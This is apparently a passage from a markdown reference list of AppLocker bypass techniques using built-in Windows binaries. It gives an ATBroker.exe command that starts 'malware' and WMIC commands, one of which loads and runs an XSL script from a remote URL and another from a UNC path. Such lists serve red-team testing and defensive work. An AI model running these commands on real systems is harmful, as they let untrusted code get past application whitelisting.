 
* Windows binary: N/A  
* Bypasses AppLocker Default rules: NT  

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes: This list is based on Windows 10 1709. Run accesschk to verify on other Windows versions
   
   
   
## Atbroker.exe

```
ATBroker.exe /start malware
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT  

Verified on OS: 
- [ ] Windows 10 1803
- [ ] Windows 10 1709
- [ ] Windows 10 1607
- [ ] Windows 10 1511
- [ ] Windows 10 1507
- [ ] Windows 8.1
- [ ] Windows 8
- [ ] Windows 7

Notes:

* Links:
  * http://www.hexacorn.com/blog/2016/07/22/beyond-good-ol-run-key-part-42/
   
   
   
## WMIC.exe

```
wmic process call create calc

wmic process get brief /format:"https://www.example.com/file.xsl

wmic os get /format:"MYXSLFILE.xsl"

wmic process get brief /format:"\\127.0.0.1\c$\Tools\pocremote.xsl"
```

* Windows binary: Yes  
* Bypasses AppLocker Default rules: NT  
